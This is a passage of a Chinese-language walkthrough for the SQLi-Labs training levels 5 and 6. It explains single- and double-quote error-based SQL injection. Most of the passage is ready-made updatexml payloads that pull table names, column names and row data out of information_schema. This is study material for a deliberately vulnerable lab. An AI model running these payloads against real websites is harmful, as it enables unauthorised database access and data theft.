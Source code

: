 和第四关同理，单引号换成双引号即可

## 第五关-函数报错注入

?id=1' 字符型单引号注入

![image-20240404110816391](PictureFile/SqliLabs通关.assets/image-20240404110816391.png)

爆出当前数据库的所有表：

```
1' and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,31),0x7e),1)--+

1' and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),32,31),0x7e),1)--+

1' and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),63,31),0x7e),1)--+
```

爆出字段信息：

```
1' and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_schema='数据库名' and table_name='表名'),1,31),0x7e),1)--+

1' and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_schema='数据库名' and table_name='表名'),32,31),0x7e),1)--+

1' and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_schema='数据库名' and table_name='表名'),63,31),0x7e),1)--+
```

爆出数据：

```
1' and updatexml(1,concat(0x7e,substr((select group_concat(**字段) from 数据库名.数据表名),1,31),0x7e),1)--+
1' and updatexml(1,concat(0x7e,substr((select group_concat(**字段) from 数据库名.数据表名),32,31),0x7e),1)--+
1' and updatexml(1,concat(0x7e,substr((select group_concat(**字段) from 数据库名.数据表名),63,31),0x7e),1)--+
```

## 第六关-双引号报错注入

和第五题一样，就换成双引号就行

## 第七关-布尔盲注
